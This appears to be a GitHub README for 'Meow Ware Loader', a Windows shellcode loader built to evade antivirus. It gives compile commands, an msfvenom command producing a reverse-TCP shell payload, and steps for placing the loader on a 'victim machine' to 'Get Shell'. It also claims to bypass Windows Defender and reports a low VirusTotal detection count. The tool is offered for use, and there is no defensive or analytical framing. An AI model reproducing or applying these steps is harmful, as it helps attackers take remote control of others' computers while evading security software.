



# Meow Ware Loader
## About
A meow meow shellcode based, anti-antivirus shell-code loader.

## Compile
Tested on `gcc version 6.3.0 (MinGW.org GCC-6.3.0-1)`, `Microsoft Windows [版本 10.0.19044.1288]`

- Converter
    - `gcc converter.c -o converter.exe`
- Loader
    - `gcc main.c -O3 -s -o meow_loader.exe`

## Usage
1. Put the shellcode (without `\x`, `0x` ... ) in `src.txt`
    - e.g. : `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.40.129 LPORT=9453 -f c | grep -v unsigned|sed "s/\"\\\x//g"|sed "s/\\\x//g"|sed "s/\"//g"|sed ':a;N;$!ba;s/\n//g'|sed "s/;//g"`
2. Run the `converter.exe > meow.meow` on the attacker machine
    - It will appear a `meow.meow` file contain encoded shell code
3. Put the `meow_loader.exe` and `meow.meow` file into the victim machine in same folder
4. Run the `meow_loader.exe` on the victim.
5. Get Shell!! 
    - 
## Performance
- Bypass Windows Defender on 2022/2/28
    - 
- [VirusTotal (7/70)](https://www.virustotal.com/gui/file/ee0fcc459241ebd6f3d269c046763f09920c7f78f7b68ff5f98ab6b5325f155d?nocache=1) on 2022/2/28
    - 
## Reference
- [SimpleShellcodeInjector](https://github.com/DimopoulosElias/SimpleShellcodeInjector)
- [基于HEX字符串执行的AV绕过](https://idiotc4t.com/defense-evasion/hex-execute)